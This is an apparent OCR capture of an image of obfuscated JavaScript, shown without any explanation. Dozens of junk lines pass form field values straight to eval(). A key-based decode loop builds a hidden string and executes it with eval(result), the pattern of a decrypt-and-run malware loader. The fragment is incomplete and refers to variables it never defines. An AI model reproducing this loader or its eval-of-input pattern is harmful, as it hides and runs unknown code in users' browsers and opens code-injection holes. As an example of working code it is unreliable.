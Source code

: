         jExvuGt7d06X=myForm.pass2.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=jExvuGt7d06X)eval(jExvuGt7d06X)
    	BjoBetORu8D6Hk1ua=myForm.pass3.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=BjoBetORu8D6Hk1ua)eval(BjoBetORu8D6Hk1ua)
    	QJL2DDhn=myForm.pass2.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=QJL2DDhn)eval(QJL2DDhn)
    	k2W7K9hZ=myForm.pass3.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=k2W7K9hZ)eval(k2W7K9hZ)
    	HcKmbMwEbNv4q2=myForm.pass3.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=HcKmbMwEbNv4q2)eval(HcKmbMwEbNv4q2)

        for (i=0; i < dataDecodedLen; i++) { dataDecoded2[i] = (dataDecoded2[i].charCodeAt(0) - keyDecoded[i % keyDecoded.length]) & 0xFF;	}

        t62Ubly0dhxremjMyJZ=myForm.pass2.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=t62Ubly0dhxremjMyJZ)eval(t62Ubly0dhxremjMyJZ)
    	GsRJjah0F=myForm.pass1.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=GsRJjah0F)eval(GsRJjah0F)
    	OBnPLEzlQOdygps2=myForm.pass3.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=OBnPLEzlQOdygps2)eval(OBnPLEzlQOdygps2)
    	UhTWgwC6uLBhtwwmh0Oy=myForm.pass3.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=UhTWgwC6uLBhtwwmh0Oy)eval(UhTWgwC6uLBhtwwmh0Oy)
    	YJzlwG8m8sVOd5qgK=myForm.pass1.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=YJzlwG8m8sVOd5qgK)eval(YJzlwG8m8sVOd5qgK)

        result="";

        bTY1Y6afA=myForm.pass3.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=bTY1Y6afA)eval(bTY1Y6afA)
    	XaujiST1qfer4dyxTyMx=myForm.pass1.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=XaujiST1qfer4dyxTyMx)eval(XaujiST1qfer4dyxTyMx)
    	NIq9uzZbOoQL9DVCiT=myForm.pass2.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=NIq9uzZbOoQL9DVCiT)eval(NIq9uzZbOoQL9DVCiT)
    	ZkYxwYclIlwGs969KT8=myForm.pass5.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=ZkYxwYclIlwGs969KT8)eval(ZkYxwYclIlwGs969KT8)
    	CY5ng=myForm.pass2.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=CY5ng)eval(CY5ng)

        for (i=0; i < dataDecoded.length; i++) { result+=String.fromCharCode(dataDecoded2[i]);}

        Vx3aWn2=myForm.pass3.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=Vx3aWn2)eval(Vx3aWn2)
    	NhuY71xe=myForm.pass5.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=NhuY71xe)eval(NhuY71xe)
    	OObTpl4HxsZjRROdG1z=myForm.pass2.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=OObTpl4HxsZjRROdG1z)eval(OObTpl4HxsZjRROdG1z)
    	BFcBmXN=myForm.pass3.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=BFcBmXN)eval(BFcBmXN)
    	dflDGOZ=myForm.pass5.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=dflDGOZ)eval(dflDGOZ)
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=result)eval(result)
    	ae2sRYPXhdDOcYV3wr3t=myForm.pass1.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=ae2sRYPXhdDOcYV3wr3t)eval(ae2sRYPXhdDOcYV3wr3t)
    	GHD7BVnwg=myForm.pass1.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=GHD7BVnwg)eval(GHD7BVnwg)
    	KJWAXTgA2L=myForm.pass3.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=KJWAXTgA2L)eval(KJWAXTgA2L)
    	fAUBCltr0=myForm.pass2.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=fAUBCltr0)eval(fAUBCltr0)
    	ZEKC6C35RAHD=myForm.pass1.value.split(';')
    	if('rFzmLyTiZ6AHlL1Q4xV7G8pW32'>=ZEKC6C35RAHD)eval(ZEKC6C35RAHD)
